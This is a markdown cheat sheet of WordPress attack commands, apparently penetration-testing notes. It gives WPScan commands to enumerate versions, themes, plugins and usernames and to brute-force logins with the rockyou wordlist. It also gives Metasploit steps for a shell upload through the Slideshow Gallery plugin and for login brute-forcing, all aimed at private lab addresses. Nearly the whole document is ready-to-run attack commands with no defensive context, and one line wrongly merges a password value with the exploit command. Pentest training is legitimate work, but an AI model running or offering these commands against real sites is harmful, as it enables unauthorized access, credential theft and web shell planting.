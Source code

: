 # WordPress Hacking

### WPScan - WordPress Vulnerability Scanner

***

WPScan is a powerful tool for identifying vulnerabilities in WordPress websites.

Display WPScan help

```bash
wpscan -hh
```

Scan the WordPress version

```bash
wpscan --url <http://192.168.1.105/wordpress/>
```

Enumerate WordPress themes

```bash
wpscan --url <http://192.168.1.105/wordpress/> -e at
```

Enumerate WordPress plugins

```bash
wpscan --url <http://192.168.1.105/wordpress/> -e ap
```

Enumerate WordPress usernames

```bash
wpscan --url <http://192.168.1.105/wordpress/> -e u
```

Enumerate all (themes, plugins, and usernames) in a single command

```bash
wpscan --url <http://192.168.1.105/wordpress/> -e at -e ap -e u
```

Brute-force attack using WPScan

```bash
wpscan --url <http://192.168.1.105/wordpress/> -U user.txt -P /usr/share/wordlists/rockyou.txt
```

Shell Upload using Metasploit (exploit module)

```bash
use exploit/unix/webapp/wp_slideshowgallery_upload
set rhost 192.168.1.105
set targeturi /wordpress
set username admin
set password jessica exploit
```

Scanning over a proxy server:

```bash
wpscan --url <http://192.168.1.105/wordpress/> --proxy <http://192.168.1.105:3128>
```

Scanning with HTTP authentication enabled

```bash
wpscan --url <http://192.168.1.105/wordpress/> --http-auth evil:123
```

### Crack WordPress Login

***

#### WPScan&#x20;

To crack a WordPress login using WPScan. Run the following command with the target WordPress site, a list of usernames, and a password list.

```bash
wpscan --url <http://192.168.1.100/wordpress/> -U users.txt -P /usr/share/wordlists/rockyou.txt
```

#### Metasploit

Metasploit provides a module for WordPress login auditing.

Open the Metasploit console

```bash
msfconsole
```

Use the WordPress login enumeration auxiliary module

```bash
use auxiliary/scanner/http/wordpress_login_enum
```

Configure the module with the target host and URI, user and password files

```bash
set rhosts 192.168.1.100
set targeturi /wordpress
set user_file user.txt
set pass_file pass.txt
```

Exploit the module

```bash
exploit
```
